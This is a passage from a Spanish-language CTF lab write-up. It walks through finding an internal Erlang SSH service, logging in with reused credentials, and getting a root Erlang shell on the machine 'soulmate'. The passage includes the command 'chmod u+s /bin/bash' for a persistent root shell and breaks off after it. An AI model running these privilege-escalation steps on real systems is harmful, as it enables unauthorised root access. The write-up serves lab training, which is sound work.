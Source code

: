 Veremos varios, pero si empezamos a investigar cada uno de ellos, veremos el siguiente bastante interesante:

```shell
nc 127.0.0.1 2222
```

Info:

```
SSH-2.0-Erlang/5.2.9

Protocol mismatch.
```

Vemos que esta utilizando una especie de `SSH` personalizado, por lo que vamos a probar a conectarnos por dicho `SSH` con las mismas credenciales del usuario `ben`, de esta forma:

```shell
ssh ben@127.0.0.1 -p 2222
```

Metemos como contraseña

```
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1>
```

Vemos que efectivamente estamos en una especie de `shell`, si probamos a ejecutar un comando como por ejemplo `whoami`:

```shell
os:cmd("whoami").
```

Info:

```
"root\n"
```

Vemos que seremos `root` dentro de dicha `shell`, pero es que si ejecutamos `hostname` veremos lo siguiente:

```shell
os:cmd("hostname").
```

Info:

```
"soulmate\n"
```

No estamos dentro de un `docker` simplemente es la maquina principal victima, pero con otra interfaz de `shell`, pero para llegar a ser `root` por `SSH` haremos esto:

```shell
os:cmd("chmod u+s /bin/bash").
```

Ahora si nos salimos de la `shell` y entramos por `SSH` veremos lo siguiente:
